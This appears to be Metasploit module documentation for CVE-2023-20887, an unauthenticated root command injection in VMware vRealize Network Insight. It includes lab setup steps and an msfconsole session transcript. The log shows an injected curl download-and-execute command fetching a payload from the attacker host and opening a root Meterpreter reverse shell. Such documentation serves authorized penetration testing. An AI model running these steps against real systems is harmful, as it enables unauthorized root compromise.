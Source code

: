 ## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare versions 6.2 to 6.10 are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install

The OVA file can be downloaded from the VMware Customer Connect portal.

1. Import the file VMware-vRealize-Network-Insight-6.8.0.1666364233-platform.ova into VMware Fusion
2. Login with the given credentials `consoleuser:console`
3. Run the `setup` command to begin setup

Starting Step 1/4: Create User Passwords
1. Enter and re-enter SSH_User_Password: `notpassword`
2. Enter and re-enter CLI_User_Password: `notpassword`

Starting Step 2/4: Network Configuration:
1. Enter IP_Family: `ipv4`
2. Enter IP_Address: `192.168.1.60`
3. Enter Default_Gateway: `192.168.1.254`
4. Enter DNS: `4.2.2.4 8.8.8.8`
5. Enter Domain_Search: `example.com`
6. Save configuration: `y`

Starting Step 3/3: Network Time Server Configuration:
1. Is the Network Time Security supported for NTP servers? `n`
2. Enter NTP servers: `0.us.pool.ntp.org`

Step 4/4: Web-Proxy (Optional Configuration)
1. Configure web proxy?: `n`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf6 > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.67
lhost => 192.168.1.67
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.67
FETCH_SRVHOST => 192.168.1.67
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.67     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.67     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target is vulnerable. VMWare Aria Operations for Networks (vRealize Network Insight) version 6.8.0 was found.
[*] Executing Unix (In-Memory) with curl -so ./yjUczQeXbCf http://192.168.1.67:8080/VtUnMtEdkI5A0Lv6Y2zkFw; chmod +x ./yjUczQeXbCf; ./yjUczQeXbCf &
[*] Attempting to execute shell
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 9 opened (192.168.1.67:4444 -> 192.168.1.60:52370) at 2023-07-20 14:50:13 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

